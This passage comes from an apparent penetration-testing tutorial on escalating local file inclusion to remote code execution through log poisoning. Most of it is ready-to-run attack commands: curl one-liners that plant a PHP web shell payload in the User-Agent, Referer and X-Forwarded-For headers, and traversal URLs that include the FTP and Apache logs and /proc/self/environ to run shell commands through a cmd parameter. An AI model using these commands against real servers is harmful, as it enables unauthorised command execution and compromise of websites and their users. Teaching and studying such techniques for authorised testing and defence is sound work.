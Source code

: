 **Step 2:** Use the LFI vulnerability to include the FTP log file:

{% code overflow="wrap" %}
```bash
bashCopy codehttp://vulnerable-website.com/index.php?page=../../../../var/log/vsftpd.log&cmd=id
```
{% endcode %}

## Inject Commands  (Metadata)

we will cover adding commands to the metadata by manipulating HTTP Headers like

(<mark style="color:red;">**User-Agent, Referer. X-Forwarded-For**</mark>)

using  Curl to manipulate the User-Agent

```bash
curl -A '<?php system($_GET["cmd"]); ?>' http://target.com/
```

**-A => User-Agent**

**-e => Referer**

**-H => X-Forwarded-for**

1.  **User-Agent Header Injection:**

    {% code overflow="wrap" %}
    ```bash
    curl -A '<?php system($_GET["cmd"]); ?>' http://vulnerable-website.com/
    ```
    {% endcode %}
2.  **Referer Header Injection:**

    ```bash
    curl -e '<?php system($_GET["cmd"]); ?>' http://vulnerable-website.com/
    ```
3.  **X-Forwarded-For Header Injection:**

    ```bash
    curl -H "X-Forwarded-For: <?php system($_GET['cmd']); ?>" http://vulnerable-website.com/
    ```

Executing Commands via LFI

```bash
index.php?page=../../../../var/log/apache2/access.log&cmd=ls
```

## Exploit Steps for LFI via `/proc/self/environ`

```bash
curl -A '<?php system($_GET["cmd"]); ?>' http://vulnerable-website.com/
```

* **`-A`** sets the `User-Agent` header.
* The malicious payload `<?php system($_GET["cmd"]); ?>` is now part of the environment variable associated with `User-Agent`.
